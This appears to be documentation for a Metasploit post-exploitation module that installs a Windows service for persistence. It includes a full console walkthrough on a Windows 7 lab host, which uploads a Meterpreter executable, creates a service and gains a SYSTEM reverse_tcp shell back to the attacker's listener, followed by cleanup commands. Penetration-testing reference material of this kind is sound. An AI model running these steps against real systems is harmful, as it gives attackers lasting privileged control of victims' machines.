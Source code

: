 ## Description

This Module will generate and upload an executable to a remote host, next will make it a persistent service.
It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.

## Options

 **REMOTE_EXE_NAME**

 The remote victim name. Random string as default.

 **REMOTE_EXE_PATH**

The remote victim exe path to run. Use temp directory as default.

 **RETRY_TIME**

The retry time that shell connect failed. 5 seconds as default.

 **SERVICE_DESCRIPTION**

The description of service. Random string as default.

 **SERVICE_NAME**

The name of service. Random string as default.

## Verification Steps

1. get session on target
2. `use exploit/windows/local/persistence_service`
3. `set payload <payload>`
4. `set lport <lport>`
5. `set lhost <lhost>`
6. `exploit`

## Scenarios

### Windows 7 SP1 x64

```
msf5 exploit(windows/local/persistence_service) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: test-PC\test
meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/local/persistence_service) > use exploit/windows/local/persistence_service
msf5 exploit(windows/local/persistence_service) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/persistence_service) > set lport 2333
lport => 2333
msf5 exploit(windows/local/persistence_service) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(windows/local/persistence_service) > set session 1
session => 1
msf5 exploit(windows/local/persistence_service) > exploit

[*] Started reverse TCP handler on 192.168.56.1:2333
[*] Running module against TEST-PC

[+] Meterpreter service exe written to C:\Users\test\AppData\Local\Temp\NVNvCyn.exe
[*] Creating service NePaGwA
[*] Cleanup Meterpreter RC File: /Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc
[*] Sending stage (179779 bytes) to 192.168.56.101
[*] Meterpreter session 4 opened (192.168.56.1:2333 -> 192.168.56.101:52781) at 2018-10-22 17:56:21 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 4...
```

**Clean it**

```
msf5 exploit(windows/local/persistence_service) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > resource /Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc
[*] Processing /Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc for ERB directives.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> execute -H -f sc.exe -a "stop NePaGwA"
Process 6516 created.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> execute -H -f sc.exe -a "delete NePaGwA"
Process 6624 created.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> execute -H -i -f taskkill.exe -a "/f /im NVNvCyn.exe"
Process 5636 created.
Channel 23 created.
SUCCESS: The process "NVNvCyn.exe" with PID 5180 has been terminated.
SUCCESS: The process "NVNvCyn.exe" with PID 4828 has been terminated.
SUCCESS: The process "NVNvCyn.exe" with PID 5728 has been terminated.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> rm C:\\Users\\test\\AppData\\Local\\Temp\\NVNvCyn.exe
meterpreter > 
